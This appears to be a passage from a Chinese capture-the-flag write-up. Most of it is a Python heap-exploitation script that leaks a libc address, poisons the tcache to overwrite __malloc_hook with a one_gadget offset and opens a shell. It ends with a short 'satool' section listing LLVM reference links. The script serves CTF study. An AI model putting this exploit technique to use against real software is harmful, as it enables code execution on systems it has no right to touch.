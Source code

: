 ```python
add(0x10)
edit(p64(heap+0x260)+p64(0x511))

for i in range(0xa):
	add(0x78)
add(0x78)


add(0x8)
delete()
edit('a'*8)
show()

ru("aaaaaaaa")
libcbase = leak_address() - 0x3ebca0

print(hex(libcbase))
malloc_hook = libc.sym['__malloc_hook']
edit(p64(libcbase+0x3ebca0))
add(0x78)
delete()
edit(p64(libcbase+malloc_hook))
add(0x78)
add(0x78)

one = [0x4f3d5,0x4f432, 0x10a41c]
edit(p64(libcbase+one[2]))
cho(1)
sla("Index:",str(0))
sla("Size:", str(0))

ia()
```



### satool

对llvm的了解仅限于知道他的名字。。

> 相关资料
>
> [cannot open shared object file: No such file or directory 解决方法](https://stackoverflow.com/questions/480764/linux-error-while-loading-shared-libraries-cannot-open-shared-object-file-no-s)
>
> [LLVM 入门教程之基本介绍](https://blog.yuuoniy.cn/posts/llvm-1/#llvm--ir)
>
> [[红帽杯 2021] PWN – Writeup](https://eqqie.cn/index.php/laji_note/1655/#simpleVM)
>
> 
>
> 调试环境
>
> ubuntu 18.04
>
> [清华大学开源软件镜像站 llvm-project](https://mirrors.tuna.tsinghua.edu.cn/github-release/llvm/llvm-project/LLVM%2012.0.0/)
